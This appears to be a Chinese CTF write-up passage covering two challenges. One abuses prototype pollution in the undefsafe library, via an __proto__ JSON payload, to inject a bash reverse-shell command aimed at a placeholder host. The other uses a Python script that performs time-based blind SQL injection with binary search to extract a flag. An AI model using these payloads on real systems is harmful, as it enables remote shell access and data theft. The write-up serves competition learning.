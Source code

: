 ```javascript
app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`))

```

``undefsafe``这个库存在原型链污染漏洞, 具体见链接https://snyk.io/vuln/SNYK-JS-UNDEFSAFE-548940

然后看到``status``那里存在命令执行, 那么思路就是污染``commands``, 让其中有我们想要执行的命令

![image-20200511203721452](/images/image-20200511203721452.png)

payload

```
POST /edit_note HTTP/1.1

{"id":"__proto__","author":"bash -i >& /dev/tcp/xxx/xxx 0>&1","raw":"aaa"}
```

记得要把contenttype改成``application/json``, 然后访问一下``status``就可以获得反弹shell了.



## trace

脚本跑着跑着环境就崩掉了, 环境不太稳定, 不得不改成二分法减少请求数量之后才把flag一次性跑出来了

```python
import requests
import time

url = "http://3039266414b24d4a9f755321e1184a5548ffce8270ee4588.changame.ichunqiu.com/register_do.php"
flag = ""
index = 1

while True:
    u_bound = 255; l_bound=0;
    while u_bound >= l_bound:
        m_bound = (u_bound + l_bound) // 2
        payload = "2'^if(ascii(substr((select `2` from (select 1,2 union select * from flag)a limit 1,1),{0},1))>{1},sleep(3),1),'1')#".format(index, m_bound)
        
        data = {
            'username':payload,
            'password':'hello'
        }
        print(data)
        
        t1 = time.time()
        res = requests.post(url, data=data)
        t2 = time.time()

        if t2 - t1 > 3:
            l_bound = m_bound + 1
        else:
            u_bound = m_bound - 1
            tmp = m_bound
    flag += chr(tmp)
    print(flag)
    index += 1

```
